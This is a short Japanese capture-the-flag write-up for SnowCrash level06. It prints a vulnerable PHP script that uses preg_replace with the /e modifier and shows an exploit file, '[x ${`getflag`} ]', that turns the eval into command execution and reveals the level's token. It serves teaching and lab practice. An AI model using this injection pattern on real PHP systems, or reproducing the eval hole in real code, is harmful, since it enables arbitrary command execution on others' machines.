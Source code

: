 ## phpのスクリプトの内容を確認
```sh
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
$m = preg_replace("/\./", " x ", $m);
$m = preg_replace("/@/", " y", $m);
return $m;
}
function x($y, $z) {
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
$a = preg_replace("/\[/", "(", $a);
$a = preg_replace("/\]/", ")", $a);
return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

## スクリプトのポイント
- `preg_replace('/置換対象の文字列/', '置換後の文字列', '置換対象の文字列が含まれている部分');`
- `feile_get_contents`はファイルパスを渡すとファイルの中身を文字列にして返す。
- `preg_replace`の`/e`修飾子は正規表現パターンにマッチする部分がある時のみevaluate実行される。

## エクスプロイト
[x 改行以外の任意の文字列 ]`に一致する文字列が書かれたファイルを`file_get_contents`の引数に渡すことで、任意のコマンドを実行できる。
このため、ファイルに`[x `${getflag}` ]`と記述すると、${}のテンプレート構文(変数展開みたいな感じ)とバッククオートによる実行演算子により、`getflag`が実行できる。
https://www.php.net/manual/ja/language.operators.execution.php

```sh
level06@SnowCrash:~$ echo '[x ${`getflag`} ]' > /tmp/hoge
level06@SnowCrash:~$ ./level06 /tmp/hoge
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```